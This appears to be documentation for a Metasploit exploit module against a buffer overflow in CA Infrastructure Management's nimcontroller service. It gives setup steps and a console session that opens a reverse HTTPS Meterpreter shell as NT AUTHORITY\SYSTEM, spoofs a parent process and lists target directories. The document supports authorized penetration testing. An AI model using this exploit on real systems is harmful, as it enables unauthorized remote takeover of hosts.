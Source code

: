 ## Vulnerable Application

All CA Infrastructure Management monitoring agents prior to 9.20 are vulnerable to a buffer overflow vulnerability
within the nimcontroller when using the directory_list probe. Since the directory_list probe requires read privileges
the target host must also be vulnerable to CVE-2020-8010 to bypass ACL settings. Successful code execution will result
in a NT AUTHORITY\SYSTEM shell, even if exploitation fails the remote service will not crash. You should be able to
exploit the service an unlimited amount of times.

## Verification Steps

1. Install the CA UIM v7.80.3132 (nimsoftrobotXXX.exe)
2. Start `msfconsole`
3. Do `use exploit/windows/nimsoft/nimcontroller_bof`
4. Do `set RHOSTS <ip>`
5. Do `exploit`
6. Verify shell is opened and service is still accessible

### Links

[CA UIM](https://techdocs.broadcom.com/content/broadcom/techdocs/us/en/ca-enterprise-software/it-operations-management/unified-infrastructure-management/9-0-2/getting-started/ca-uim-overview.html)
[Nimsoft Probe Utility](https://techdocs.broadcom.com/content/broadcom/techdocs/us/en/ca-enterprise-software/it-operations-management/unified-infrastructure-management/9-0-2/administering/run-probe-commands-from-a-command-prompt.html)

## Options

## Scenarios

### Windows 10 x64

```
msf5 exploit(windows/nimsoft/nimcontroller_bof) > options

Module options (exploit/windows/nimsoft/nimcontroller_bof):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DIRECTORY  C:\              no        Directory path to obtain a listing
   RHOSTS     W.X.Y.Z          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      48000            yes       The target port (TCP)


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     A.B.C.D          yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Windows Universal (x64) - v7.80.3132


msf5 exploit(windows/nimsoft/nimcontroller_bof) > exploit

[*] Started HTTPS reverse handler on https://A.B.C.D:8443
[*] W.X.Y.Z:48000 - Executing automatic check (disable AutoCheck to override)
[*] https://A.B.C.D:8443 handling request from W.X.Y.Z; (UUID: rpsri4cm) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (A.B.C.D:8443 -> W.X.Y.Z:50980) at 2020-07-21 11:14:09 -0500
[*] W.X.Y.Z:48000 - Version 7.80 [Build 7.80.3132, Jun  1 2015] detected, sending directory_list probe

 Directory of C:\

 12/15/2019 06:24 PM  <DIR> $GetCurrent
 12/14/2019 01:41 AM  <DIR> $Recycle.Bin
 10/18/2019 05:55 PM  <DIR> Documents and Settings
 07/21/2020 10:15 AM  <DIR> pagefile.sys
 07/14/2020 03:41 PM  <DIR> PerfLogs
 06/10/2020 09:18 AM  <DIR> Program Files
 07/19/2020 01:37 PM  <DIR> Program Files (x86)
 07/14/2020 03:41 PM  <DIR> ProgramData
 12/15/2019 07:08 PM  <DIR> Recovery
 07/21/2020 10:15 AM  <DIR> swapfile.sys
 10/18/2019 04:04 PM  <DIR> System Volume Information
 12/15/2019 07:09 PM  <DIR> Users
 07/18/2020 02:20 PM  <DIR> Windows

[+] W.X.Y.Z:48000 - The target is vulnerable.

meterpreter >
[*] Session ID 1 (A.B.C.D:8443 -> W.X.Y.Z:50980) processing AutoRunScript 'post/windows/manage/migrate'
[*] Running module against DESKTOP-JICNNRT
[*] Current server process: notepad.exe (1860)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 7472
[+] Successfully migrated into process 7472

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/nimsoft/nimcontroller_bof) > set DIRECTORY C:\\Users\\
DIRECTORY => C:\Users\
msf5 exploit(windows/nimsoft/nimcontroller_bof) > check

[*] W.X.Y.Z:48000 - Version 7.80 [Build 7.80.3132, Jun  1 2015] detected, sending directory_list probe

 Directory of C:\Users\

 03/19/2019 12:02 AM  <DIR> All Users
 12/15/2019 07:14 PM  <DIR> Default
 03/19/2019 12:02 AM  <DIR> Default User
 03/18/2019 11:49 PM  <DIR> desktop.ini
 07/19/2020 01:37 PM  <DIR> REDACTED
 12/15/2019 09:07 PM  <DIR> Public

[+] W.X.Y.Z:48000 - The target is vulnerable.
```
